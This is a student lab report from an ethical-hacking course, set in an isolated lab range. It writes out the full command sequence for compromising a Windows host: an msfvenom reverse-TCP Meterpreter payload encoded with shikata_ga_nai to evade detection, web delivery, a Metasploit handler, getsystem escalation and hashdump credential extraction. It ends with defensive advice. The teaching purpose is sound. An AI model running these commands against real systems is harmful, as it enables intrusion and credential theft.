



# Ethical Hacking Lab 21: System Hacking

**Course:** IT460 Threat Hunting &nbsp;·&nbsp; **Category:** System Hacking / Exploitation &nbsp;·&nbsp; **Environment:** NDG NETLAB+ (isolated lab range)

> The full report is rendered below. A formal copy is also available for download: [**Ethical-Hacking-Lab-21-System-Hacking.pdf**](./Ethical-Hacking-Lab-21-System-Hacking.pdf)

## Skills Demonstrated

- Network Scanning and Enumeration
- Operating-System and Service Fingerprinting
- Payload Generation (msfvenom)
- Reverse-TCP Exploitation
- Metasploit multi/handler Operation
- Privilege Escalation to SYSTEM
- Credential and Password-Hash Extraction
- Post-Exploitation and File Management
- Social-Engineering Delivery

## Tools Used

- Kali Linux
- Nmap
- Metasploit Framework
- msfvenom
- Apache Web Server
- Meterpreter

---

## 1. Objective

The objective of this lab was to carry out a complete system-hacking sequence against a Windows workstation, beginning with target identification and ending with remote command execution on the compromised host. The sequence included scanning the network for a live target, generating and hosting a reverse-TCP payload, delivering the payload through a web download, receiving the resulting Meterpreter session, escalating privileges, extracting password hashes, and uploading and running a command file on the target.

System hacking is the phase of an assessment in which access obtained through earlier scanning and enumeration is used to take control of a system. Once control is established, the operator can enumerate the host, read or modify data, escalate privileges, harvest credential material, establish persistence, and use the compromised system as a position from which to reach other hosts on the network.

## 2. Commands and Tools Used

### Tools Used

| Tool | Purpose in the Lab |
| --- | --- |
| Nmap | Discovered the live host and enumerated its open ports, service versions, and operating-system characteristics. |
| Metasploit Framework | Configured the multi-handler that received the reverse-TCP connection and provided the post-exploitation modules. |
| msfvenom | Generated and encoded the Windows Meterpreter reverse-TCP executable. |
| Apache Web Server | Hosted the executable so that the target could download it over HTTP. |
| Meterpreter | Provided the interactive session used for enumeration, privilege escalation, hash extraction, and file management. |

### Key Concepts

A **payload** is the code that performs an action once it executes on a target, such as opening a remote session. A **reverse-TCP connection** causes the target to initiate the connection back to the operator's listener rather than the operator connecting inbound to the target, which allows the traffic to pass through firewalls that permit outbound connections. An **exploit** takes advantage of a vulnerability or user action to gain execution, whereas the **payload** is the code that runs after that execution is achieved. A **listener**, also called a handler, waits on the operator's system for the connection produced by the payload and turns it into a usable session.

### Commands Used

| Command | Purpose |
| --- | --- |
| `nmap -sP 192.168.0.0/24` | Performed a ping sweep to identify active hosts on the target subnet. |
| `nmap -sSV -O 192.168.0.20` | Enumerated open ports, service versions, and operating-system information. |
| `systemctl start apache2` | Started the Apache web server used to deliver the payload. |
| `msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' LHOST=192.168.0.2 LPORT=4444 -f exe > /var/www/html/lab21/exploit.exe` | Generated the encoded Windows reverse-TCP executable and wrote it to the Apache web directory. |
| `use exploit/multi/handler` | Selected the Metasploit handler used to receive the reverse connection. |
| `set payload windows/meterpreter/reverse_tcp` | Configured the handler to match the payload built into the executable. |
| `set LHOST 192.168.0.2` | Set Kali Linux as the callback destination. |
| `exploit -j -z` | Started the handler as a background job without auto-interaction. |
| `sysinfo` | Displayed the target's computer name, operating system, architecture, and domain. |
| `pwd` / `ls` / `ifconfig` | Identified the working directory, listed its contents, and displayed network-interface information. |
| `getuid` / `getsystem` | Identified the session account and elevated it from Administrator to SYSTEM. |
| `run hashdump` | Extracted the local account password hashes from the Windows system. |
| `upload hacked.cmd C:\Users\Administrator\Downloads` | Uploaded the command file to the target's Downloads directory. |
| `execute -f hacked.cmd` | Executed the uploaded command file on the target. |

## 3. Key Findings

The target was the WinOS virtual machine at `192.168.0.20` on the `192.168.0.0/24` subnet. The version-detection and operating-system scan reported five open ports and services consistent with a Microsoft Windows host, including MSRPC on port 135, NetBIOS on port 139, Microsoft-DS (SMB) on port 445, and Remote Desktop on port 3389. The Meterpreter `sysinfo` output later confirmed the host name as `WINOS`, running Windows 2016+ (build 17763) on an x64 architecture and joined to the `ETHICAL` domain.

A Windows Meterpreter reverse-TCP executable was selected because the target was confirmed to be Windows and because a reverse connection causes the host to call back to the operator, which avoids inbound firewall restrictions. The executable was configured to connect to Kali Linux at `192.168.0.2` on TCP port `4444` and was encoded with `x86/shikata_ga_nai` to reduce the likelihood of signature-based detection. Apache hosted the file, and it was downloaded through the WinOS web browser and saved in the Administrator's Downloads directory.

Execution of the file opened a Meterpreter session from WinOS to the Metasploit handler, confirmed by the console message reporting that session 1 was established between `192.168.0.2:4444` and the target. The session initially operated as `ETHICAL\administrator`. The `getsystem` command used named-pipe impersonation to elevate the session to `NT AUTHORITY\SYSTEM`, the highest local privilege level on the host.

With SYSTEM-level access, `run hashdump` extracted the local NTLM password hashes for the Administrator, Guest, DefaultAccount, and WDAGUtilityAccount accounts. A command file was then uploaded to the target and executed successfully, which demonstrated the ability to modify the target's file system and run additional files remotely.

## 4. Analysis of the Attack Process

### Phase 1: Reconnaissance and Target Identification

A ping sweep of the `192.168.0.0/24` subnet identified the active hosts, including the WinOS target at `192.168.0.20`. A follow-up SYN, version-detection, and operating-system scan enumerated the open ports and the associated Windows services. These results established that the target was a Microsoft Windows system and informed the choice of a Windows-compatible payload.

### Phase 2: Payload Creation

The `windows/meterpreter/reverse_tcp` payload was generated with msfvenom as a Windows executable, configured with the Kali callback address and port and encoded over six iterations of `shikata_ga_nai` with the null byte removed as a bad character. The resulting file was written directly into the Apache web directory so that it was ready for delivery.

### Phase 3: Delivery Method

Apache served the payload from the Kali web server after the default index page was removed and a dedicated directory was created for the file. From WinOS, the executable was downloaded through Google Chrome and stored in the Administrator's Downloads directory. This method illustrated how a web server combined with social engineering can lead a user to download and run a malicious file.

### Phase 4: Exploitation

The Metasploit multi-handler was configured with the matching payload, callback address, and port, then started as a background job. When the executable was launched on WinOS, the target initiated the reverse connection to Kali Linux and a Meterpreter session opened, providing interactive access to the compromised host.

### Phase 5: Post-Exploitation

The session was used to enumerate the host with `sysinfo`, `pwd`, `ls`, and `ifconfig`, which returned the system identity, working directory, file listing, and network configuration. After confirming the session ran as Administrator, `getsystem` elevated it to `NT AUTHORITY\SYSTEM`. The `run hashdump` command then extracted the local account hashes, and a command file was uploaded to the Downloads directory and executed. The resulting Command Prompt listed the contents of the Users directory and displayed the message YOU HAVE BEEN HACKED, which confirmed successful upload and execution.

**Overall control obtained.** The complete sequence demonstrated that the operator obtained extensive control of the target, including the ability to enumerate the system, escalate to the highest local privilege, access credential material, modify the file system, and execute additional commands remotely.

## 5. Why It Matters

System hacking is dangerous because a single successful compromise can provide the position from which an operator gains broad control of an environment. As shown in this lab, one executed file progressed from an ordinary Administrator session to SYSTEM-level access, hash extraction, and remote command execution within a few steps, and each of those stages was confirmed against the target's own output.

At this level of access, a real attacker could steal or modify sensitive data, disable security controls, establish persistence, capture additional credentials, and move laterally to other systems on the network. The extracted password hashes are a clear example: cracked offline or reused directly, they could open further accounts and extend the compromise from a single workstation to the wider domain.

## 6. Basic Defense

Organizations can reduce this exposure through updated anti-malware and endpoint-detection tools, application allowlisting, network monitoring for unexpected outbound connections, and least-privilege access that limits opportunities for privilege escalation and hash extraction. These technical controls should be paired with security-awareness training so that users do not download or run unknown files, particularly those delivered through untrusted websites or unsolicited messages.

## 7. Evidence

**Figure 1.1 — Meterpreter System Information for WinOS**

The Meterpreter `sysinfo` command identified the compromised system as WINOS running Windows 2016+ build 17763. The output also documented the x64 architecture, ETHICAL domain membership, system language, number of logged-on users, and the active Meterpreter platform.

**Figure 1.2 — SYSTEM Privilege Escalation and Password-Hash Extraction**

The initial `getuid` result identified the session as ETHICAL\administrator. The `getsystem` command elevated the session through named-pipe impersonation, after which `getuid` confirmed the context as NT AUTHORITY\SYSTEM. The subsequent `run hashdump` extracted the credential hashes for the Administrator, Guest, DefaultAccount, and WDAGUtilityAccount accounts.

**Figure 1.3 — Successful Execution of the Uploaded Command File**

The WinOS Command Prompt displayed the contents of the `C:\Users` directory and the message YOU HAVE BEEN HACKED. This output confirmed that the command file uploaded through Meterpreter was executed successfully on the target.

